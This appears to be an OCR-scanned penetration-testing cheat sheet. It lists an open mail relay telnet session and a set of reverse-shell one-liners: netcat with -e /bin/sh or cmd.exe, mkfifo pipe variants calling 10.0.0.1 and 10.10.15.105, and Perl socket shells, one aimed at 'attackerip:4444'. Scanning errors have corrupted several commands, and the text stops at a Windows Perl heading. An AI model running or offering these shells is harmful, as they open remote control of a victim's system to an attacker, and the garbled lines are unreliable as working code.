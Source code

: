 ### Open mail relay

```text
C:\ telnet x.x.x.x 25
Hello x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank you.
quit
```


## Reverse loose

### Netcat command \(\* run on the attacker's system\)

```text
nc 10.0.0.1 1234 -e /bin/sh Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe Windows reverse shell
```

### Netcat command \(-e may not be supported in some versions\)

```text
nc -e /bin/sh 10.0.0.1 1234
```

### Netcat command for when -e is not supported

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

### Perl language

```text
perl -e 'use Socket; $i="10.0.0.l"; $p=1234; socket (S, PF INET, SOCK STREAM,
getprotobjname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN," &S") ;open(STDOUT," &S"); open(STDERR," &S"); exec("/bin/sh" -i");};'
```

### Perl language without /bin/sh

```text
perl -MIO -e '$p=fork;exit,if($p);$c=new
IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN- fdopen($c,r);$~-fdopen($
c, w) ; system$_ while ;'
```

### Perl language for windows
